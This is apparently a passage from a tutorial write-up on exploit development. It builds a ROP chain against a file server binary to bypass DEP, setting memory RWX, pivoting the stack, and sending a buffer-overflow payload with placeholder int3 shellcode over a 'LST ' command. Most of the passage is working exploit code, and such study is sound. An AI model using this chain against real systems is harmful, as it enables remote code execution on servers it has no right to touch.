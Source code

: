 ```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffefff) #-0x1001
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x000774c6) # dec eax; ret
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Let's move forward in our stub-pointer! We are close...

![](https://i.kym-cdn.com/entries/icons/original/000/009/976/First_World_Problems.jpg)


```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

The argument left to set in the stub is _flProtect_, which needs to be 0x40 in order to set the permissions of the memory we are allocating as _RWX_, and this way bypasses the _DEP_ protection. Let's use one more time the _negate_ trick to accomplish this.

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffffc0) #-0x40
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Now, the only thing left to add to our chain is a jump to our Shellcode. The way I did this was by calculating the difference between the current stub-pointer in the stack and the Shellcode. Which was 0x14, so we can move the stub-pointer to _EAX_ and then add 0x14 by doing a negative subtraction with _EDX_ . Finally, we can use the "xchg esp, eax; ret;"  gadget to set the value of the stack to it, so after the return, we should land in our payload.


```python
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffffec) # - 0x14
rop += p32(filesrv+0x0003697f) # add eax, edx; ret;
rop += p32(filesrv+0x00066ab3) # xchg esp, eax; ret;
```

We can test the above by creating a variable, _Shellcode_ with the int3 char, that should stop execution, acting as a break-point, if _DEP_ is disabled.

```python
shellcode = b"\xcc"*300
```
And then, adding it to our payload to be sent, as shown below.

```python
payload  = b""
payload += b"LST "
payload += buf
payload += b"A" * (0x408-len(buf))
payload += b"BBBB" #
payload += p32(filesrv+0x00011396) # Stack pivot add esp, 0xe10
payload += b"\x90" * 64
payload += shellcode
payload += b"\x90" * (0xfb0-len(payload))
r.sendline(payload)

r.close()
```

